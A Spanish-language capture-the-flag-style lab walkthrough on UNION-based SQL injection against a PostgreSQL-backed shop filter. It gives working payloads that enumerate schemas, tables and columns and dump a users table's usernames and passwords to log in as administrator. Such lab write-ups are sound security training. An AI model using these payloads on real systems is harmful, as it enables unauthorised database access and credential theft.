










## SQL injection attack, listing the database contents on non-Oracle databases

<p align="center">
  
</p>

Accedemos al laboratorio y vemos que hay botones para filtrar datos por categoría:

<p align="center">
  
</p>

Vemos que la selección de categoría queda reflejado en la URL:

<p align="center">
  
</p>

Vamos a usar el tipico payload `' or 1=1-- -` para ver si nos devuelve todos los datos posibles y es vulnerable a SQL Injection:

<p align="center">
  
</p>

La página nos ha devuelto todos los datos de la base de datos sin dar ningún error, por lo que la aplicación web es vulnerable a SQL Injection. 

Ahora vamos a tratar de determinar el número de columnas que devuelve la web:

```SQL
' UNION SELECT NULL,NULL-- -
```

> Debemos ir añadiendo o quitando NULL, hasta que deje de dar error (significa que la consulta inyectada ha coincidido con el numero de columnas que la web devuelve)

<p align="center">
  
</p>

Ahora sabiendo el número de columnas que devuelve la consulta que viaja por detrás en la web, vamos a enumerar las bases de datos existentes:

```SQL
' UNION SELECT NULL,schema_name from information_schema.schemata-- -
```

<p align="center">
  
</p>

Hemos podido volcar el nombre de 3 bases de datos (Public, pg_catalog e information_schema).

Teniendo en cuenta que information_schema es una base de datos por defecto de MYSQL y pg_catalog es una base de datos por defecto de PostgreSQL, vamos a centrarnos en la base de datos "public" y a volcar el nombre de sus tablas mediante el siguiente Payload:

```SQL
' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public'-- -
```

<p align="center">
  
</p>

Ahora sabemos que hay una tabla llamada Users, así que vamos a intentar volcar el nombre de las columnas de esa tabla mediante el siguiente Payload:

```SQL
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_schema='public' and table_name='users_nbexgz'-- -
```

<p align="center">
  
</p>

Ahora sabemos que en la tabla users hay datos de correo, nombre de usuario y contraseña, vamos a intentar volcar todo ese contenido mediante el siguiente Payload:

```SQL
' UNION SELECT NULL,username_ewkjmd||':'||password_ulgmtn FROM users_nbexgz-- -
```

<p align="center">
  
</p>

Ahora tenemos las credenciales del administrador, por lo que podemos tratar de iniciar sesión y resolver el laboratorio:

<p align="center">
  
</p>


